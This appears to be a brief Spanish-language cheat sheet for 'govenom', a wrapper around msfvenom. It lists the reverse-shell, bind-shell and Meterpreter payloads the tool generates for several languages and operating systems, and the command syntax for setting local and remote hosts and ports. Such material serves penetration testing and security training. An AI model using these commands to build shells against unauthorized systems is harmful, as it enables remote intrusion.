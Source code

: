# Govenom Cheat Sheet

#### Generar payloads de msfvenom
```
govenom <PAYLOAD>
```

#### Payloads disponibles
```
asp      Generate a ASP Meterpreter shell
bash     Generate a Bash reverse shell
jsp      Generate a Jsp reverse shell
linux    Generate Linux Meterpreter reverse/bind shell x86 multi stage :)
macos    Generate MacOS Meterpreter reverse/bind shells :)
perl     Generate a Perl reverse shell
php      Generate PHP reverse shells
python   Generate a Python reverse shell
war      Generate a War reverse shell
windows  Generate Windows Meterpreter muti shells :)
```

#### Generar payloads de msfvenom con nuestras propias opciones
```
govenom <PAYLOAD> -lhost <IP-LOCAL> -lpor <PORT-LOCAL> -rhost <IP-REMOTE>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)